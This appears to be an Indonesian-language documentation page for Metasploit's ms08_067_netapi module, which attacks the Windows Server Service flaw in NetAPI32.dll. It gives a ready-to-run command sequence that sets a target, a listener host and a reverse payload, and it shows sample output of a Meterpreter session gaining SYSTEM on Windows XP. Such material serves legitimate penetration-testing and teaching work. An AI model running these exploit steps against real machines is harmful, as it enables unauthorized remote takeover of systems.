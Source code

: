 # ms08_067_netapi

Modul ini memanfaatkan kelemahan parsing dalam kode kanonisasi jalur pada `NetAPI32.dll` melalui Server Service. Modul ini mampu melewati `NX` pada beberapa sistem operasi dan service pack. Target yang tepat harus digunakan untuk mencegah Server Service (bersama dengan belasan layanan lain dalam proses yang sama) mengalami crash. Target `Windows XP` tampaknya dapat menangani beberapa kejadian eksploitasi yang berhasil, tetapi target `Windows 2003` sering kali mengalami crash atau hang pada percobaan berikutnya. Ini hanyalah versi pertama dari modul ini, dukungan penuh untuk bypass `NX` pada `Windows 2003`, bersama dengan platform lain, masih dalam pengembangan.

## Penulis
- hdm x@hdm.io
- Brett Moore brett.moore@insomniasec.com
- frank2 frank2@dc949.org
- jduck jduck@metasploit.com

## Platform
- `Windows`

## Cara Penggunaan di Metasploit

```
use exploit/windows/smb/ms08_067_netapi
set PAYLOAD <PAYLOAD>
set RHOSTS <IP_TARGET>
set RPORT 445
set SMBPIPE BROWSER
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] 192.168.1.54:445 - Automatically detecting the target...
[*] 192.168.1.54:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 192.168.1.54:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 192.168.1.54:445 - Attempting to trigger the vulnerability...
[*] Sending stage (177734 bytes) to 192.168.1.54
[*] Meterpreter session 4 opened (192.168.1.11:4444 -> 192.168.1.54:1033) at 2025-05-17 09:14:22 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/)
